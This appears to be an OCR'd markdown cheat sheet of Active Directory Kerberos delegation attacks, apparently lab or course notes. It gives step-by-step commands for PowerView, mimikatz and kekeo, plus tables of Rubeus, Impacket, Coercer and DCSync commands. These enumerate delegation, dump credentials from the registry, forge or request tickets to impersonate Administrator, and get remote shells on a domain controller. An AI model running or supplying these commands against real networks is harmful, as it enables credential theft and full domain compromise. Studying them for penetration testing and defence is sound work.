 # Constrained vs Unconstrained

## Delegation configuration

#### 1) HTTP

#### 2) CIFS

#### 3) LDAP

#### 4) HOST

#### 5) MSSQL

# Constrained Delegation Exploitation 

## Example:

#### 1) Import-Module c:\tools\Powerview.ps1

#### 2) Get-NetUser -TrustedToAuth

#### 3) mimikatz.exe

#### 4) token::elevate

#### 5) lsadump::secrets (Pulls clear text credentials from registry hive)

#### 6) Exit mimikatz after "token::elevate" command

#### 7) kekeo.exe

#### 8) tgt::ask /user:USER/SERVICE /domain:DOMAIN /password:PASSWORD

#### 9) tgs::s4u /tgt:TICKET.KIRBI /user:USER /service:SERVICE *You can run same command to impersonate more services.

#### 10) mimikatz

#### 11) privilege::debug

#### 12) kerberos::ptt TICKET.KIRBI

#### 13) kerberos::ptt TICKET2.KIRBI

#### 14) klist

## REMOTE EXPLOITATION EXAMPLE:

#### 1) Impacket-getST -k -impersonate Administrator -spn CIFS/DC.DOMAIN.LOCAL DOMAIN.LOCAL/USERNAME

#### 2) export KRB5CCNAME=Administrator.ccache

#### 3) impacket-wmiexec DOMAIN.LOCAL/Administrator@DC.DOMAIN.LOCAL -k -no-pass

# Kerberos Constrained Delegation

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetUser -TrustedToAuth`                                 | Cmdlet used to enumerate user accounts that are trusted for delegation in the domain |
| `.\Rubeus.exe hash /password:Slavi123`                       | Converts the plaintext password `Slavi123` to its NTLM hash equivalent|
| `.\Rubeus.exe s4u /user:webservice /rc4:<hash> /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt` | Using Rubeus to request a ticket for the `Administrator` account, by way of the `webservice` user who is trusted for delegation |
| `Enter-PSSession dc1`                                        | Used to enter a new powershell remote session on the `dc1` computer |

# Coercing Attacks & Unconstrained Delegation

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetComputer -Unconstrained \| select samaccountname`       | PowerView command used to idenfity systems configred for Unconstrained Delegation. |
| `.\Rubeus.exe monitor /interval:1`                           | Used to monitor new logons and extract TGTs. |
| `Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local` | Used to perform a coercing attack towards DC1, forcing it to connect to WS001.
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host. |
